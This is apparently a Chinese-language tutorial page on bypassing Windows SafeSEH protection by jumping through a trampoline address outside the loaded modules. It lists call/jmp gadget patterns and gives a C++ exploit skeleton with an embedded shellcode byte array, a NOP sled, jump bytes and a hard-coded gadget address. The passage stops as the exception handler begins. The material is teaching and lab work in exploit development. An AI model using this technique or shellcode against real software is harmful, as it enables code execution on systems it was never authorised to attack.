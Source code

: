 ## 利用加载模块以外的地址绕过SafeSEH

> 所有的模块都默认开启了SafeSEH

### 跳板

| 地址 | 反汇编代码 |
|-|-|
| | call/jmpdword ptr[esp+0x8] |
| | call/jmpdword ptr[esp+0x14] |
| | call/jmpdword ptr[esp+0x1c] |
| | call/jmpdword ptr[esp+0x2c] |
| | call/jmpdword ptr[esp+0x44] |
| | call/jmpdword ptr[esp+0x50] |
| | call/jmp dword ptr[ebp+0xc] |
| | call/jmp dword ptr[ebp+0x24] |
| | call/jmp dword ptr[ebp+0x30] |
| | call/jmp dword ptr[ebp-0x4] |
| | call/jmp dword ptr[ebp-0xc] |
| | call/jmp dword ptr[ebp-0x18] |

### 代码

```cpp
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] = 
// shellcode start
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
// shellcode end
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90" // will be overfile with 00000000 00000000 by {__try __catch}
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90" // far jump and nop
"\xEB\xF6\x90\x90" // short jump and nop & return here
"\x0B\x0B\x29\x00" // address of call [ebp+30] in outside memory
;

DWORD MyException(void)
{
	printf("There is an exception");
```